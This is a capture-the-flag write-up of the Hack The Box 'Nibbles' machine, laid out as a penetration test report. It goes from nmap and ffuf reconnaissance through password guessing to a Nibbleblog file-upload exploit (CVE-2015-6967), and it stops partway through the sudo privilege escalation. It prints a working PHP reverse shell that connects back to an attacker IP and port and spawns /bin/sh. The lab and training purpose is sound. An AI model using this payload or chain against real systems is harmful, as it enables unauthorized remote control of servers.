<p align="center">
  
</p>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <tr>
    <td align="left" ><b>🎯 Target</b></td>
    <td> Nibbles - <code> https://app.hackthebox.com/machines/Nibbles </code></td>
  </tr>
  <tr>
    <td align="left" ><b>👨‍💻 Author</b></td>
    <td><code>sonyahack1</code></td>
  </tr>
  <tr>
    <td align="left" ><b>📅 Date</b></td>
    <td>24.11.2026</td>
  </tr>
  <tr>
    <td align="left" ><b>📊 Difficulty</b></td>
    <td>Easy 🟢</td>
  </tr>
  <tr>
    <td align="left" ><b>📁 Category</b></td>
    <td> Linux / Web / Privilege Escalation </td>
  </tr>
  <tr>
    <td align="left" ><b>🛠️ Tools</b></td>
    <td> nmap | ffuf | nc </td>
  </tr>
  <tr>
    <td align="left" ><b>💀 Objectives</b></td>
    <td>
	<code>user flag</code><br>
	<code>root flag</code><br>
   </td>
  </tr>

</table>

</div>

## Executive Summary

> A penetration test was performed against the target host `Nibbles` to assess the security posture. The assessment resulted in a full compromise of the system, achieving the highest level of privileges (root).

> The host was running a web content management system `Nibbleblog` protected by weak, easily guessable administrator credentials. After gaining access to the administrative panel, a file upload weakness allowed arbitrary code to be executed on the server, granting an initial foothold. A misconfiguration in the system's privilege settings then allowed this access to be elevated to full administrative (root) control of the host.

> In a real-world scenario, these issues combined would allow an attacker to take complete control of the server, access all hosted data, and use the system as a pivot point into the internal network. The underlying causes are weak credential policy, insufficient file upload validation, and overly permissive privilege configuration. All findings and recommended remediations are detailed in the sections below.

## Scope

| Asset | Value |
|-------|-------|
| Hostname | Nibbles |
| IP address | 10.129.89.115 |
| In-scope services | HTTP (80), SSH (22) |
| Assessment type | Internal, black-box |
| Testing window | 24.11.2026 |

Denial-of-Service (DoS) testing and attacks against any host outside the defined scope were explicitly excluded.

## MITRE ATT&CK Mapping

<h2 align="center"> ⚔️ Attack Implemented </h2>

<div align="center">

<table width="100%" border="1" cellpadding="6" cellspacing="0">
  <thead>
    <tr>
      <th width="18%">ID</th>
      <th width="18%">Tactics</th>
      <th width="40%">Techniques</th>
      <th width="42%">Description</th>
    </tr>
  </thead>

  <tbody>
    <tr>
      <td align="left"><b>T1046</b></td>
      <td align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>Network Service Discovery</b></td>
      <td>Nmap scan to identify open ports and running services</td>
    </tr>
    <tr>
      <td align="left"><b>T1083</b></td>
      <td align="left"><b>TA0007 - Discovery</b></td>
      <td align="left"><b>File and Directory Discovery</b></td>
      <td>Directory fuzzing with ffuf to find hidden web paths</td>
    </tr>
    <tr>
      <td align="left"><b>T1552.001</b></td>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>Unsecured Credentials: Credentials In Files</b></td>
      <td>Username recovered from the exposed <code>users.xml</code> file</td>
    </tr>
    <tr>
      <td align="left"><b>T1110.001</b></td>
      <td align="left"><b>TA0006 - Credential Access</b></td>
      <td align="left"><b>Brute Force: Password Guessing</b></td>
      <td>Administrator password guessed from a list of common candidates</td>
    </tr>
    <tr>
      <td align="left"><b>T1505.003</b></td>
      <td align="left"><b>TA0003 - Persistence</b></td>
      <td align="left"><b>Server Software Component: Web Shell</b></td>
      <td>PHP reverse shell uploaded via the <code>My Image</code> plugin</td>
    </tr>
    <tr>
      <td align="left"><b>T1059.004</b></td>
      <td align="left"><b>TA0002 - Execution</b></td>
      <td align="left"><b>Command and Scripting Interpreter: Unix Shell</b></td>
      <td>Code execution obtained on the target host</td>
    </tr>
    <tr>
      <td align="left"><b>T1548.003</b></td>
      <td align="left"><b>TA0004 - Privilege Escalation</b></td>
      <td align="left"><b>Abuse Elevation Control Mechanism: Sudo and Sudo Caching</b></td>
      <td>Writable script executed as root via a sudo misconfiguration</td>
    </tr>
    <tr>
      <td align="left"><b>T1005</b></td>
      <td align="left"><b>TA0009 - Collection</b></td>
      <td align="left"><b>Data from Local System</b></td>
      <td>User and root flags retrieved from the host</td>
    </tr>
  </tbody>
</table>

</div>

## Attack Path

- [Reconnaissance](#reconnaissance)
- [Initial Access](#initial-access)
- [Privilege Escalation](#privilege-escalation)
- [Findings / Remediation](#findings--remediation)

## Reconnaissance

We began by scanning the target with nmap to identify open ports and running services:

```bash

sudo nmap -vv 10.129.89.115
sudo nmap -p80,22 -sVC 10.129.89.115

```

<p align="center">
 
</p>
<p align="center">
 
</p>

The scan revealed two open ports: `22 (SSH)` and `80 (HTTP)`. The web service was opened for further inspection:

<p align="center">
 
</p>

The page source was reviewed, revealing a comment that hinted at a potentially accessible web directory, `/nibbleblog/`:

<p align="center">
 
</p>

Browsing to the page revealed a Nibbleblog website:

<p align="center">
 
</p>
<p align="center">
 
</p>

>[!NOTE]
> `Nibbleblog` is an open source `CMS` written in php. Its main characteristic is that it requires no database - all posts and settings are stored in plain XML files on the server.

Directory fuzzing was performed to identify additional hidden directories:

```bash

sudo ffuf -u 'http://nibbles.htb/nibbleblog/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -ic -c

```

<p align="center">
 
</p>

The fuzzing results revealed several useful directories and an `admin.php` page, which presented a login form for the CMS:

<p align="center">
 
</p>

The default credentials such as `admin:admin` were not valid. However, the username could be recovered by reviewing the discovered directories, where the file `users.xml` was found under `/content/private/`:

<p align="center">
 
</p>

The username `admin` was obtained, but the password was still unknown. As this is an open source CMS, its full source code could be located and analysed - a convenient approach, since it reveals exactly how the system works. The source code was found on GitHub:

<p align="center">
 
</p>

Reviewing the source code revealed an interesting detail:

<p align="center">
 
</p>

The login logic implemented a brute-force protection mechanism, so having the username without the password did not allow a straightforward brute-force attack. However, the password proved to be easily guessable — trying a short list of obvious candidates (`admin`, `password`, `nibbleblog`, `nibbles`, `12345678` etc) was sufficient. The password `nibbles` was valid, granting access to the Nibbleblog `administrative panel`:

<p align="center">
 
</p>

## Initial Access

The README file found during fuzzing disclosed the CMS version, `4.0.3`:

<p align="center">
 
</p>

### CVE-2015-6967

A publicly known vulnerability was identified that allows file upload through the `My Image` plugin in versions up to `4.0.5`. The application does not validate the file extension, which allows a `.php` file to be uploaded in place of an image:

<p align="center">
 
</p>

A file named `shell.php` was created containing a simple PHP reverse shell:

```php

<?php
$ip = '10.10.14.152';
$port = 4141;
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>

```

In the admin panel, the Plugins section was opened, followed by the configuration of the `My Image` plugin:

<p align="center">
 
</p>

A listener was started, and our `shell.php` was uploaded:

<p align="center">
 
</p>

The warnings could be ignored; the key indicator was the message: `changes has been saved successfully`. The uploaded file then had to be triggered for the system to execute it. Uploaded files are stored under `/content/private/plugins/my_image/`:

<p align="center">
 
</p>

Simply accessing the file triggered a reverse shell connection:

<p align="center">
 
</p>

Access to the host was obtained. The `first flag` was retrieved from the home directory of the user `nibbler`:

<p align="center">
 
</p>

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 user flag </b><br/>
      <code>*****************</code>
    </td>
  </tr>
</table>

</div>

## Privilege Escalation

The `sudoers` configuration for the current user revealed a potential privilege escalation vector:

<p align="center">
 
</p>

This entry allowed the user `nibbler` to execute the file `monitor.sh` with root privileges without requiring a password.

The file permissions were checked, revealing that the file was `writable` by the current user:

<p align="center">
 
</p>

The file was overwritten with a payload to obtain a root shell:

<p align="center">
